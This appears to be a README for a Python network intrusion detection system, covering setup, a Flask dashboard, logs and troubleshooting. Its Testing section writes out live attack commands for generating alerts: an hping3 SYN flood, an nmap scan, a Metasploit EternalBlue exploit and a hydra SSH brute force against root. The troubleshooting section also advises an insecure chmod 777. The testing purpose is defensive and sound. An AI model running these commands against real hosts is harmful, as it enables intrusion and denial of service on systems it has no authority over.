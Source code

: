 ## INTRUSION DETECTION SYSTEM

## Prerequisites
- Python 3.8+
- Root permissions for packet capture
- Required tools:
sudo apt update
sudo apt install python3 python3-pip python3-venv net-tools

## Setup
cd ids_project
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
Edit network interface in config/settings.py:
INTERFACE = "eth0" # or wlan0, ens33, etc.

## Running the IDS
sudo bash scripts/run_ids.sh
> The dashboard will be available at: http://localhost:5000
## Dashboard Features
- Live Alerts (via SocketIO)
- Alert History
- Filters: protocol, start_date, end_date
- Pagination (50 alerts per page)
- Log Viewer
- View last 200 lines of any .log file from /logs/
- Export Alerts to CSV
- Applies same filters as /history
- Downloads via /export_csv


## Testing
- **HTTP Flood**: `sudo hping3 -S -p 80 --flood <target_ip>`
- **Port Scan**: `nmap <target_ip>`
- **SMB Attack**: Use Metasploit:
  ```
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS <target_ip>
  set LHOST <kali_ip>
  exploit
  ```
- **SSH Brute Force**: `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>`

## Logs
- Application: `logs/app.log`
- Database: `logs/db.log`
- Packet capture: `logs/ids.log`
- Parser: `logs/parser.log`
- Rules: `logs/rules.log`
- Geolocation: `logs/geo.log`
- Resolver: `logs/resolver.log`
- Detector: `logs/detector.log`
- Alert Generator: `logs/alert_generator.log`
- Runtime: `logs/run.log`

## Troubleshooting
- **No dashboard**: Check `logs/app.log` and `logs/run.log`
- **No alerts**: Verify interface (`ifconfig`), check `logs/ids.log` and `logs/parser.log`, use `tcpdump -i eth0`
- **Dependency errors**: Run `sudo apt install python3-pip`
- **Permission errors**: Ensure `sudo`, verify `chmod -R 777 logs/`
